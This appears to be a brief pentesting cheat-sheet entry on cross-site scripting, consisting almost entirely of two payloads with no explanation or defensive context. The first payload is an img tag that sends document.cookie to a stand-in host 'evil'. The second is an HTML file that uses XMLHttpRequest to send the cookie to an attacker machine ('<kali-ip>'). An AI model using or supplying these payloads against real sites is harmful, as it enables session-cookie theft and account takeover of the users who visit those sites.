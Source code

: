 ## XSS (Cross-Site Scripting)
### Get cookie
```html
<img src='http://evil/?c='+document.cookie>
```

### HTML file injection
```html
<html>
	<body>
		<script>
			var r = new XMLHttpRequest();
			r.open("GET", "http://<kali-ip>/" + document.cookie);
			r.send();
		</script>
	</body>
</html>
```
